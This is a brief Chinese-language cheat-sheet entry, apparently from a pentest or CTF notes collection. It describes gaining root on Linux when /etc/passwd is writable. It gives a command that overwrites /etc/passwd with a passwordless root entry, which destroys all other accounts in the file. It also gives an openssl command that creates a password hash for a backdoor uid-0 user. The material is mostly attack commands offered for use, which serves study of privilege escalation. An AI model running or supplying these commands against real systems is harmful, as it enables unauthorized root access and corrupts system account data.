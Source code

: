 # passwd可写(密码写入)

两种方法

1. 直接把root设置成空

```bash
echo root::0:0:root:/root:/bin/bash > /etc/passwd
```

1. 第二种就是密码写入（但是能达成直接写入的情况不如用第一种，方便快捷）

```bash
生成密码如上
openssl passwd -1 -salt pwn pass123
构造格式如下，注意不是每一个都有/结尾，有些是.，但是建议改改密码，有些是.的我失败了
pwn:1﻿pwn$aL2GjO05r1U5G0H4YPr6w/:0:0:root:/root:/bin/bash
```
